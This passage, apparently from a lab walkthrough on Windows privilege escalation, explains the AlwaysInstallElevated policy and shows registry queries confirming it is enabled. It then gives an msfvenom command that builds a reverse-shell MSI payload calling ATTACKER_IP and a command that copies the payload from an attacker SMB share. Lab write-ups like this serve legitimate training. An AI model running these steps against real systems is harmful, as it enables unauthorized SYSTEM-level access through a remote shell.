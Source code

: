 
### Registry - AlwaysInstallElevated

A quick look at [Win32 App documentation for AlwaysInstallElevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) tells us all about this User Policy. Here's an extract from the documentation:

> You can use the AlwaysInstallElevated policy to install a Windows Installer package with elevated (system) privileges.
>
> **Warning**
>
> This option is equivalent to granting full administrative rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.
>
> To install a package with elevated (system) privileges, set the AlwaysInstallElevated value to "1" under both of the following registry keys:
> 
> `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
> 
> `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`

This also explains the next step we're instructed to carry out in this task, i.e. querying the registry for AlwaysInstallElevated:

```console
C:\Users\user>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\Users\user>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Both of the registry entries are set to `0x1`. 

We'll need to generate a different payload for this exploit, namely, a `msi` (Microsoft Software Installer?) file which we'll be transferring to the machine using the method we used in the [Gaining Access](#gaining-access) section. 

To generate the payload:

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f msi -o reverse.msi
```

On the target machine (after starting SMB server on your machine):

```console
C:\Users\user>copy \\ATTACKER_IP\kali\reverse.msi C:\PrivEsc\reverse.msi
        1 file(s) copied.
```
